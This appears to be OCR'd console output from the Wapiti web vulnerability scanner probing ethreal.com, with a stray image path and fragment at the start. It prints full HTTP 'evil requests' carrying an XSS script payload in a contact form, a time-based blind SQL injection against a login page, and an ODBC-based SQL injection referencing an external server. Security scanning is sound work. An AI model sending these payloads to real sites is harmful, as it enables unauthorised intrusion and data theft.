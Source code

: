     username=alice%C2%BF%27%22%28&password=Letm3in_
---

[*] Launching module xss
---
XSS vulnerability in http://ethreal.com/contact via injection in the parameter message
Evil request:
    POST /contact HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/contact
    Content-Type: application/x-www-form-urlencoded

    name=default&email=wapiti2021%40mailinator.com&subject=default&message=%3CScRiPt%3Ealert%28%27wqepl1hwxq%27%29%3C%2FsCrIpT%3E
---

[*] Launching module ssrf
[*] Asking endpoint URL https://wapiti3.ovh/get_ssrf.php?id=dgpc4r for results, please wait...

[*] Launching module redirect

[*] Launching module blindsql
---
Received a HTTP 500 error in http://ethreal.com/backend/login
Evil request:
    POST /backend/login HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/backend/login
    Content-Type: application/x-www-form-urlencoded

    username=%27+or+sleep%287%29%231&password=Letm3in_
---
---
Received a HTTP 500 error in http://ethreal.com/contact
Evil request:
    POST /contact HTTP/1.1
    Host: ethreal.com
    Referer: http://ethreal.com/contact
    Content-Type: application/x-www-form-urlencoded

    name=default&email=wapiti2021%40mailinator.com&subject=%27+and+%28SELECT+%2A+FROM+%5BODBC%3BDRIVER%3DSQL+SERVER%3BServer%3D1.1.1.1%3BDATABASE%3Dw%5D.a.p%29%00&message=Hi+there%21
---

[*] Launching module permanentxss

Report
------
A report has been generated in the file wapiti_report
Open wapiti_report/ethreal.com_03092025_1109.html with a browser to see this report.





